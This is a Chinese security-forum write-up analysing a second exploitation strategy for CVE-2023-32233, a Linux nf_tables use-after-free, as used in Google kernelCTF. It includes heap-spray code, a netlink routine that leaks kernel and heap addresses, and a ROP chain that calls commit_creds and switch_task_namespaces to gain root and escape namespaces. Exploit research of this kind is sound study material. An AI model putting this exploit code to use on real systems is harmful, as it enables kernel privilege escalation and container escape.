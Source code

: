 

# 奇安信攻防社区-CVE-2023-32233 在 Google KCTF 中的漏洞利用方案分析

### CVE-2023-32233 在 Google KCTF 中的漏洞利用方案分析

这是对前文的补充，增加一种漏洞利用方案的分析，前文地址：https://forum.butian.net/share/2719 前文的漏洞利用的策略是通过占位 set 让 ext 指针错位，从而越界销毁相邻的 expr 实现任意地...

这是对前文的补充，增加一种漏洞利用方案的分析，前文地址：

```c
https://forum.butian.net/share/2719
```

前文的漏洞利用的策略是通过占位 set 让 ext 指针错位，从而越界销毁相邻的 expr 实现任意地址读写。

```c
static void nf_tables_set_elem_destroy(const struct nft_ctx *ctx,
                       const struct nft_set *set, void *elem)
{
    struct nft_set_ext *ext = nft_set_elem_ext(set, elem);

    if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPRESSIONS))
        nft_set_elem_expr_destroy(ctx, nft_set_ext_expr(ext));

    kfree(elem);
}
```

本文的思路则是利用 NFT\_MSG\_DELSET 来使用 UAF 的 set，实现 set->name 的 double free.

```c
static void nft_set_destroy(const struct nft_ctx *ctx, struct nft_set *set)
{
    int i;
    if (WARN_ON(set->use > 0))
        return;

    for (i = 0; i < set->num_exprs; i++)
        nft_expr_destroy(ctx, set->exprs[i]);

    set->ops->destroy(set);
    nft_set_catchall_destroy(ctx, set);
    kfree(set->name); // set->name double free
    kvfree(set);
}

static void nft_commit_release(struct nft_trans *trans)
{
    switch (trans->msg_type) {
    case NFT_MSG_DELSET:
        nft_set_destroy(&trans->ctx, nft_trans_set(trans));
        break;
```

具体的步骤如下：

1.  创建 匿名 set（pwn\_lookup\_set）
2.  创建 rule 其中包含一个 lookup expr，该 expr 引用 pwn\_lookup\_set
3.  下发 netlink 批处理请求，批处理中有两个请求：NFT\_MSG\_DELRULE、NFT\_MSG\_DELSET
4.  nft\_commit\_release 处理 NFT\_MSG\_DELRULE 删除 rule 和 lookup expr，同时会释放 pwn\_lookup\_set
5.  nft\_commit\_release 处理 NFT\_MSG\_DELSET 时就会<span style="font-weight: bold;" data-type="strong">引用已经释放的 pwn\_lookup\_set，尝试再次释放 se</span>t.

在 4-5 之间使用另一个 set（race\_set）占位，内核执行完 5 后，race\_set 和 race\_set->name 的内存就会被释放，漏洞就转换为 race\_set 的 UAF

​​​![image](assets/1706770701-e3655d5f61a73c6073834fe59279a525.png)​​​

控制 race\_set 的 name 长度可以获取 dyn-kmalloc-256 的 UAF，堆喷 race\_set 控制 name 的代码如下

```c
    for (int spray = 0; spray != 0x20; ++ spray) {
        char *set_name;
        asprintf(&set_name, "race_set_%0200hx", spray);  // 分配 209 大小的 set_name
        pwn_create_set(batch, seq++, set_name, spray, NFT_SET_ANONYMOUS, sizeof(uaf_set_key), set_desc_size, 0, 0);
    }
```

为了获取方便的内存读写能力，使用 chain->udata 占位 set->name，然后释放 set 就能实现 chain->udata 的 uaf，分配 udata 的代码如下：

```c
static int nf_tables_addchain(struct nft_ctx *ctx, u8 family, u8 genmask,
                  u8 policy, u32 flags,
                  struct netlink_ext_ack *extack)
    ...

if (nla[NFTA_CHAIN_USERDATA]) {
        chain->udata = nla_memdup(nla[NFTA_CHAIN_USERDATA], GFP_KERNEL_ACCOUNT);    // [4]
        if (chain->udata == NULL) {
            err = -ENOMEM;
            goto err_destroy_chain;
        }
        chain->udlen = nla_len(nla[NFTA_CHAIN_USERDATA]);
    }
```

堆喷 chain->udata 占位的相关代码：

```c
    for(int i = 0 ; i < 0x20; i++){
        char *chain_name;
        asprintf(&chain_name, "spray_chain_%08hx", i);
        pwn_create_leak_chain(batch, seq++, chain_name);
    }
```

​![image](assets/1706770701-b177c4eace9b6ac4534f0525476d31b8.png)​

之后通过 NFT\_MSG\_GETCHAIN 就能读取 chain->udata 的数据，找一个有指针的对象占位 udata，就能泄露内核地址，这边使用的是 nft\_rule 结构体：

​![image](assets/1706770701-6db8a8118e1e9a5d2a64fccc431722df.png)​

rule 结构中的优点如下：

-   list 指针指向堆喷的相邻 rule，通过它可以泄露相邻堆块的地址，然后结合堆喷可以在相应地址上伪造数据。
-   rule 里面会内嵌 expr，expr 里面的 ops 指针保存了 KO 的地址，可以用来计算 gadget 的地址
-   rule 结构体占用的内存大小用户态可以控制

‍

rule 占位后通过 NFT\_MSG\_GETCHAIN 通过 chain->udata 读出对象的数据，泄露相关地址：

```c
        struct nlmsghdr *nlh = nftnl_nlmsg_build_hdr(
            mnl_batch_buffer,
            NFT_MSG_GETCHAIN,
            NFPROTO_INET,
            NLM_F_ACK,
            seq
        );

        char *chain_name;
        asprintf(&chain_name, "spray_chain_%08hx", i);

        nftnl_chain_set_str(chain, NFTNL_CHAIN_NAME, chain_name);
        nftnl_chain_set_str(chain, NFTNL_CHAIN_TABLE, "testfirewall");
        nftnl_chain_nlmsg_build_payload(nlh, chain);
        nftnl_chain_free(chain);

        if (mnl_socket_sendto(nl, nlh, nlh->nlmsg_len) < 0) {
            err(1, "Cannot into mnl_socket_sendto()");
        }

        memset(mnl_batch_buffer, 0, sizeof(mnl_batch_buffer));

        mnl_socket_recvfrom(nl, mnl_batch_buffer, mnl_batch_limit);

        nft_counter_ops =  *(unsigned long*) &mnl_batch_buffer[0x74];
        kbase = nft_counter_ops - NFT_COUNTER_OPS;
        heap_addr =  *(unsigned long*) &mnl_batch_buffer[0x64];
        victim_rule_handle = *(unsigned long*) &mnl_batch_buffer[0x6c] & 0xffff;
```

‍

泄露出堆地址和内核代码地址后，再利用 chain->udata 来伪造 rule 结构和 nft\_counter expr

​![image](assets/1706770701-2098625b9c993ca6350f4c5e896da2ca.png)​

最后 NFT\_MSG\_DELRULE 触发 `expr->ops->deactivate`​ 的调用进入 ROP

```c
void make_payload_rop(uint64_t* data){
    int i = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = 0;

    data[i++] = kbase + POP_RSI_RET;            // dummy
    data[i++] = kbase + PUSH_RAX_POP_RSP;       // expr->ops->deactivate()

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    data[i++] = kbase + VFORK;
    data[i++] = kbase + DELAY;
}
```

‍

‍

<span style="font-weight: bold;" data-type="strong">总结</span>

struct rule 这种结构体中同时存在链表指针、内核镜像/ko 地址 的对象是用于地址泄露非常理想的对象，可以同时泄露出堆地址和代码段地址，一般堆地址可能还可以通过内核逻辑进行占位从而控制数据，实现在内核特定地址中布置数据的功能，这个能力对于伪造内核对象来说是非常重要的功能。

‍

对于桌面端内核漏洞 (ubuntu 有 ns 权限) 利用而言，netlink 里面的这些对象可以很方便的辅助漏洞利用。

‍

<span style="font-weight: bold;" data-type="strong">参考</span>

1.  [https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-32233\_mitigation/docs/exploit.md](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-32233_mitigation/docs/exploit.md)

‍
